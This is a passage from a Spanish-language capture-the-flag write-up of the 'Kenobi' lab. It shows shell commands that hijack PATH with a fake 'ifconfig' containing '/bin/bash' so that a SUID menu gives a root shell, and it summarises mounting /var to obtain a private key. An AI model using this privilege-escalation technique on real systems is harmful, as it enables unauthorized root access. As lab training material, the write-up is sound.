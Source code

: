 
```shell
kenobi@kenobi:~$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

echo /bin/bash > ifconfig
chmod 777 ifconfig
export PATH=.:$PATH
```
Y luego al lanzar nuestro menu invocando `ifconfig` tendremos una shell root!

![Desktop View](/assets/Posts/Kenobi/6.png){: width="972" height="589" }
_Carpeta montada con idrsa_

## Conclusiones
- Vimos vulnerabilidad de copia de directorios y aprovechamos aceso muy permisivo al poder montar todo /var en nuestro sistema.
- Escalamos privilegios mediante manipulacion de PATH
- Restauramos el balance de la fuerza.




